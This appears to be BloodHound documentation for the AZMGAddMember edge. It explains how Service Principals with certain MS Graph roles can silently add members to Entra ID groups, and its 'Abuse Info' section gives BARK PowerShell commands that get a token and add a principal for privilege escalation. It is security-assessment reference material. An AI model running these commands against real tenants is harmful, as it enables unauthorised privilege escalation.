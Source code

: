 ---
title: AZMGAddMember
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

It is created against non-role assignable Entra ID security groups when a Service Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All

It is created against all Entra ID security groups, including those that are role assignable, when a Service Principal has the following MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see this privilege when using the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Entra ID security group, you will not see that the Service Principal can add members to the group, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

You can abuse this privilege using BARK’s Add-AZMemberToGroup function.

This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add principal to the target group. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s Add-AZMemberToGroup function to add a new principial to the target group:

```bash
Add-AZMemberToGroup `
    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
    -Token $MGToken.access_token
```
Then, you can re-authenticate as the principal you just added to the group and continue your attack path, now having whatever privileges the target group has.

## Opsec Considerations
The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
